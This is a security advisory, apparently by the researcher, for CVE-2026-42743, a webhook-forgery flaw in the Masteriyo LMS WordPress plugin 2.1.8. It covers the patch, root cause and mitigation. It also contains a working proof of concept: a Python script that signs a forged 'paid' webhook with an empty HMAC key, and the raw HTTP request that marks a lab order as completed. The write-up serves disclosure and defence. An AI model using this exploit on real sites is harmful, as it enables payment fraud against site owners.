



# CVE-2026-42743 - Masteriyo LMS Lemon Squeezy Webhook Forgery

## Overview

- Advisory: https://patchstack.com/database/wordpress/plugin/learning-management-system/vulnerability/wordpress-masteriyo-lms-plugin-2-1-8-broken-authentication-vulnerability
- CVE: CVE-2026-42743
- Affected plugin: Masteriyo LMS
- Affected version tested: `2.1.8`
- Fixed version: `2.1.9`
- Affected add-on: `lemon-squeezy-integration`



## Summary

The issue is in the Lemon Squeezy webhook verification flow.

In Masteriyo LMS `2.1.8`, the webhook handler takes the configured Lemon Squeezy webhook secret and uses it directly as the HMAC key. On a fresh or incomplete setup, this value can be an empty string.

The vulnerable part is not that the endpoint is public. Payment webhooks normally need to be reachable without a WordPress login. The problem is that the handler still accepts the request flow when the signing secret is empty.

Because PHP can calculate a valid HMAC with an empty key, an attacker can sign a forged webhook body with:

```text
HMAC-SHA256(raw_body, "")
```

If the forged payload uses `status = paid`, a pending order can be marked as completed. In my local test, this also activated the related course enrollment.

## How I Found It

I started by reviewing the Lemon Squeezy add-on because payment webhook endpoints are usually registered as unauthenticated WordPress AJAX actions.

The endpoint was reachable through `wp_ajax_nopriv_*`, which is expected for a webhook. After that, I checked how the request was authenticated.

The first thing I tested was an unsigned webhook request. That failed. Then I checked the signing logic and noticed that the plugin retrieved the webhook secret from settings and immediately used it in `hash_hmac()`.

The important detail was the default configuration: `webhook_secret` is set to an empty string. In version `2.1.8`, there was no explicit guard to reject the request when this value was empty.

After signing the same JSON body with an empty HMAC key, the forged webhook was accepted.

## Patch Analysis

The bug was fixed in Masteriyo LMS `2.1.9`.

In `2.1.8`, the handler calculates the HMAC directly after loading the secret:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );

if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

There is no check before the HMAC calculation. If `$secret` is empty, the code still continues.

A safe flow should reject the request before calculating the HMAC:

```php
if ( empty( $secret ) ) {
    throw new Exception( 'Webhook secret is not configured.', 403 );
}
```

In `2.1.9`, the plugin added that missing check:

```php
$secret = Setting::get_webhook_secret();

if ( empty( $secret ) ) {
    masteriyo_get_logger()->error( 'Webhook secret is not configured', array( 'source' => 'payment-lemon-squeezy' ) );
    throw new Exception( 'Webhook secret is not configured.', 403 );
}

$hash = hash_hmac( 'sha256', $payload, $secret );

if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

The patch also added an admin notice when Lemon Squeezy is enabled but the webhook secret is not configured.

## Root Cause

The root cause is a fail-open webhook verification path when the Lemon Squeezy webhook secret is empty.

### 1. Empty Default Secret

In `addons/lemon-squeezy-integration/Setting.php`, the default Lemon Squeezy settings include an empty `webhook_secret`:

```php
protected static $data = array(
    'unenrollment_status' => array( OrderStatus::REFUNDED ),
    'api_key'             => '',
    'store_id'            => '',
    'webhook_secret'      => '',
    'enable'              => false,
    'title'               => 'Lemon Squeezy',
    'description'         => 'Pay with Lemon Squeezy.',
);
```

The relevant line is:

```php
'webhook_secret' => '',
```

This default value is not a bug by itself. The bug appears because the webhook handler does not stop when the secret is still empty.

### 2. Public Webhook Endpoint

The add-on registers the webhook endpoint for both logged-in and unauthenticated users:

```php
add_action( 'wp_ajax_masteriyo_lemon_squeezy_webhook', array( $this, 'handle_webhook' ) );
add_action( 'wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook', array( $this, 'handle_webhook' ) );
```

The unauthenticated hook is:

```php
wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook
```

This makes the endpoint reachable without a WordPress session.

That part is normal for a third-party payment webhook. It only becomes dangerous because the signature check can be passed with an empty key.

### 3. Signature Verification With an Empty Key

Inside `handle_webhook()`, the plugin reads the signature, raw request body, and event name:

```php
$signature = isset( $_SERVER['HTTP_X_SIGNATURE'] ) ? $_SERVER['HTTP_X_SIGNATURE'] : null;
$payload   = @file_get_contents( 'php://input' ); // phpcs:ignore
$event     = isset( $_SERVER['HTTP_X_EVENT_NAME'] ) ? $_SERVER['HTTP_X_EVENT_NAME'] : null;
```

Then it calculates the expected HMAC:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );

if ( ! hash_equals( $hash, $signature ) ) {
    masteriyo_get_logger()->error( 'Invalid signature', array( 'source' => 'payment-lemon-squeezy' ) );
    throw new Exception( 'Invalid signature.', 403 );
}
```

The vulnerable behavior is here:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );
```

When the saved secret is empty, the expected signature becomes:

```text
hash_hmac("sha256", raw_body, "")
```

An attacker can calculate the same value locally and send it in the `X-Signature` header.

## Order State Change

After the signature check passes, the webhook is treated as valid.

For the `order_created` event, the handler calls `handle_order_created()`:

```php
switch ( $event ) {
    case 'order_created':
        return $this->handle_order_created( $data, $order_id, $custom_data );
}
```

In `handle_order_created()`, a payload with `status = paid` changes the order status to `COMPLETED`:

```php
$order_status = OrderStatus::PENDING;

if ( 'paid' === $data['status'] ) {
    $order_status = OrderStatus::COMPLETED;
} elseif ( 'refunded' === $data['status'] ) {
    $order_status = OrderStatus::REFUNDED;
} elseif ( 'failed' === $data['status'] ) {
    $order_status = OrderStatus::FAILED;
}

$order = masteriyo_get_order( $order_id );

if ( ! $order ) {
    return new WP_Error( 'order_not_found', __( 'Order not found.', 'learning-management-system' ), array( 'status' => 404 ) );
}

$order->set_status( $order_status );
$order->set_currency( $data['currency'] );
$order->set_transaction_id( $data['order_id'] );
$order->save();
```

The important part for the impact is:

```php
if ( 'paid' === $data['status'] ) {
    $order_status = OrderStatus::COMPLETED;
}

$order->set_status( $order_status );
$order->save();
```

Since the attacker controls the webhook body, they can submit a forged `paid` event. In my test case, this changed the target order from `pending` to `completed`.

The plugin also stores payment metadata after that:

```php
$this->update_order_meta( $order_id, $data );
```

So the order ends up looking like it was paid through Lemon Squeezy, including attacker-controlled transaction metadata.

## Preconditions

The issue requires these conditions:

- Masteriyo LMS `<= 2.1.8`.
- The Lemon Squeezy integration add-on is enabled.
- The Lemon Squeezy webhook secret is empty or has not been configured.
- The attacker can identify or guess a valid `order_id`, `course_id`, and `user_id`.
- The target order is still in a state where changing it to `completed` has an effect.

## Exploit Flow

```text
Unauthenticated request
        |
        v
wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook
        |
        v
handle_webhook()
        |
        v
hash_hmac(raw_body, "")
        |
        v
signature matches
        |
        v
handle_order_created()
        |
        v
pending order -> completed order
        |
        v
inactive enrollment -> active enrollment
```

## PoC

Lab environment:

```text
Target: http://192.168.1.14/wp/
WordPress: 7.0
PHP: 8.3.6
Masteriyo LMS: 2.1.8
Add-on: lemon-squeezy-integration
Webhook secret: empty
Course ID: 42
Order ID: 43
User ID: 4
```

The user used to create the order was `bbstudent`.

The paid course/product in the lab was `Test Product`, mapped to `course_id = 42`.

Initial state:

```text
Order 43: pending
Enrollment user 4/course 42: inactive
```

Order before the exploit:


Database state before the exploit:



Generate the signature with an empty HMAC key:

```python
import hashlib
import hmac

body = b'{"meta":{"custom_data":{"course_id":"42","order_id":"43","user_id":"4"}},"data":{"id":"ls_order_1337","type":"orders","attributes":{"total":4900,"status":"paid","currency":"USD","subtotal":4900,"test_mode":true,"total_usd":4900,"user_name":"BB Student","created_at":"2026-06-03T08:40:00Z","updated_at":"2026-06-03T08:40:00Z","user_email":"bbstudent@example.com","refunded":false,"refunded_at":null,"currency_rate":"1.0","subtotal_usd":4900,"total_formatted":"$49.00","first_order_item":{"product_id":"prod_1337","quantity":1,"product_name":"Test Product","variant_id":"var_1337","variant_name":"Default"}}}}'

print(hmac.new(b"", body, hashlib.sha256).hexdigest())
```

Generated signature:

```text
db79b27512481878006b4cc797fbc28966db74508b36f98b005f698c1b4161bb
```

Raw request sent from Burp Suite:

```http
POST /wp/wp-admin/admin-ajax.php?action=masteriyo_lemon_squeezy_webhook HTTP/1.1
Host: 192.168.1.14
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
X-Event-Name: order_created
X-Signature: db79b27512481878006b4cc797fbc28966db74508b36f98b005f698c1b4161bb
Connection: close

{"meta":{"custom_data":{"course_id":"42","order_id":"43","user_id":"4"}},"data":{"id":"ls_order_1337","type":"orders","attributes":{"total":4900,"status":"paid","currency":"USD","subtotal":4900,"test_mode":true,"total_usd":4900,"user_name":"BB Student","created_at":"2026-06-03T08:40:00Z","updated_at":"2026-06-03T08:40:00Z","user_email":"bbstudent@example.com","refunded":false,"refunded_at":null,"currency_rate":"1.0","subtotal_usd":4900,"total_formatted":"$49.00","first_order_item":{"product_id":"prod_1337","quantity":1,"product_name":"Test Product","variant_id":"var_1337","variant_name":"Default"}}}}
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"success":true,"data":{"message":"Order created successfully.","order_id":43}}
```


Result after exploitation:

```text
Order 43: completed
Transaction ID: ls_order_1337
Enrollment user 4/course 42: active
```



Database state after exploitation:


## Impact

With the vulnerable configuration, an unauthenticated attacker can forge a Lemon Squeezy webhook and mark an existing pending order as paid.

In the tested setup, this allowed:

1. Changing a pending order to completed.
2. Activating enrollment for a paid course.
3. Writing forged Lemon Squeezy transaction metadata to the order.
4. Corrupting order and revenue records.

The main security impact is payment integrity bypass and unauthorized access to paid course content.

## Limitations

This issue does not provide remote code execution.

The attacker also needs the target identifiers used by the webhook flow, such as `order_id`, `course_id`, and `user_id`. These values may be easier or harder to obtain depending on the site's configuration, exposed pages, emails, account access, and order behavior.

The issue is also configuration-dependent. If the Lemon Squeezy webhook secret is properly configured, the empty-key bypass does not apply.

## Mitigation

Administrators should update Masteriyo LMS to `2.1.9` or later.

At the code level, the webhook handler should fail closed when the secret is empty:

```php
$secret = Setting::get_webhook_secret();

if ( empty( $secret ) ) {
    throw new Exception( 'Webhook secret is not configured.', 403 );
}

$hash = hash_hmac( 'sha256', $payload, $secret );

if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

The handler should also validate the business data in the webhook body before updating an order. Useful checks include:

1. The order belongs to the expected user.
2. The course in the order matches the course in the webhook payload.
3. The amount and currency match the pending order.
4. The transaction ID has not already been used.
5. The Lemon Squeezy product or variant ID matches the course/product mapping.

## References

- Masteriyo LMS: https://wordpress.org/plugins/learning-management-system/
- Lemon Squeezy webhook signing: https://docs.lemonsqueezy.com/help/webhooks/signing-requests
- WordPress plugin source tag 2.1.8: https://plugins.svn.wordpress.org/learning-management-system/tags/2.1.8/
- WordPress plugin source tag 2.1.9: https://plugins.svn.wordpress.org/learning-management-system/tags/2.1.9/
